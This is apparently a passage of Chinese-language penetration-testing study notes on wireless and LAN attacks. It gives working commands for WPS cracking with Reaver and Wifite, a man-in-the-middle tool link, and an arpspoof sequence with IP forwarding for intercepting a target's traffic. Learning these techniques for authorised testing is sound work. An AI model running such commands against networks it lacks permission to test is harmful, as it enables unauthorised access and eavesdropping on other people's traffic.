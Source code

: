 ##### 6.2.3 WPS/QSS

使用Reaver

```
reaver -i mon0 -b 14:E6:E4:AC:FB:20 -vv
```

使用Wifite

```
wifite -dict common.txt
```

转6.4

#### 6.3Gerix Wifi Cracker破解

> 图形化界面，抛弃

#### 6.4使用Wifite破解无线网络

> 一键脚本，不推荐学习使用，仅做测试使用

```
/usr/lib/python3/dist-package/wifite  /脚本目录
/root/hs 	/扫描握手包保存目录
wifite
```

#### 6.5使用Easy-Creds工具攻击无线

> 中间人攻击，分析数据流

 [https://github.com/brav0hax/easy-creds](https://github.com/brav0hax/easy-creds) 

#### 6.6树莓派破解无线

#### 6.7攻击路由器

Rouerpwn

#### 6.8Arpspoof工具

> ARP欺骗工具通过替代传输中数据达成欺骗

##### 6.8.1URL流量操纵攻击

```
echo 1 >> /proc/sys/net/ipv4/ip_forward  /开启路由转发 ，0为关闭，目标无法联网
cat /proc/sys/net/ipv4/ip_forward  /查询路由转发
arpspoof -i wlan0 -t 192.168.6.101 192.168.6.1  /伪装成网关
arpspoof -i wlan0 -t 192.168.6.1 192.168.6.101  /伪装成目标系统
成功，通过Wireshark查看，蓝色是目标发出的，黑色是本机转发的，粉色是网关发给目标被我们截取的
```

##### 6.8.2 端口重定向攻击

> 重定向流量到不同端口
